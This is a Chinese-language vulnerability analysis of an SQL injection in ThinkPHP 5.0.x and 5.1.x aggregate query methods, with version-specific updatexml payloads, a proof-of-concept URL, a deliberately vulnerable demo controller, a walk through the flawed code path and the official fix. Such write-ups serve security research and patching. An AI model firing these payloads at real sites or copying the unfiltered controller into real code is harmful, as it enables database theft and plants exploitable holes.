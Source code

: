 5.0.0 \<= Thinkphp \<= 5.0.21 & 5.1.3\<=ThinkPHP5\<=5.1.25
==========================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（所有 **Mysql**
聚合函数相关方法均存在注入）。本次漏洞存在于所有 **Mysql**
聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进
**SQL** 语句，最终导致 **SQL注入漏洞** 的产生。

漏洞概要
--------

二、漏洞影响
------------

5.0.0\<=ThinkPHP\<=5.0.21

5.1.3\<=ThinkPHP5\<=5.1.25

三、复现过程
------------

不同版本 **payload** 需稍作调整：

 **5.0.0\~5.0.21** 、 **5.1.3～5.1.10** ：

    id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

**5.1.11～5.1.25** ：

    id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

漏洞环境
--------

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.1.25 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.6.0",
        "topthink/framework": "5.1.25"
    },

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $options = request()->get('options');
            $result = db('users')->max($options);
            var_dump($result);
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'Mochazz');
    insert into users(id,username) values(2,'Jerry');
    insert into users(id,username) values(3,'Kitty');

### poc

    http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](/Users/aresx/Documents/VulWiki/.resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId27.png)

### 漏洞分析

首先在官方发布的 **5.1.26** 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![2.png](/Users/aresx/Documents/VulWiki/.resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId29.png)

我们可以查阅其 **commit** 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![3.png](/Users/aresx/Documents/VulWiki/.resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId30.png)

首先，用户可控数据未经过滤，传入 **Query** 类的 **max**
方法进行聚合查询语句构造，接着调用本类的 **aggregate**
方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在
**SQL注入** 问题。我们看到 **aggregate** 方法又调用了 **Mysql** 类的
**aggregate** 方法，在该方法中，我们可以明显看到程序将用户可控变量
**\$field** ，经过 **parseKey** 方法处理后，与 **SQL**
语句进行了拼接。下面我们就来具体看看 **parseKey** 方法。

![4.png](/Users/aresx/Documents/VulWiki/.resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId31.png)

**parseKey**
方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过
**parseKey** 方法处理后，程序又回到了上图的 **\$this-\>value()**
方法中，该方法会调用 **Builder** 类的 **select** 方法来构造 **SQL**
语句。这个方法应该说是在分析 **ThinkPHP**
漏洞时，非常常见的了。其无非就是使用 **str\_replace** 方法，将变量替换到
**SQL** 语句模板中。这里，我们重点关注 **parseField**
方法，因为用户可控数据存储在 **\$options\[\'field\'\]**
变量中并被传入该方法。

![5.png](/Users/aresx/Documents/VulWiki/.resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId32.png)

进入 **parseField** 方法，我们发现用户可控数据只是经过 **parseKey**
方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 **SQL**
语句模板里，导致 **SQL注入漏洞** 的发生

![6.png](/Users/aresx/Documents/VulWiki/.resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId33.png)

### 漏洞修复

官方的修复方法是：当匹配到除了 **字母、点号、星号**
以外的字符时，就抛出异常。

![3.png](/Users/aresx/Documents/VulWiki/.resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId35.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![7.png](/Users/aresx/Documents/VulWiki/.resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId37.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
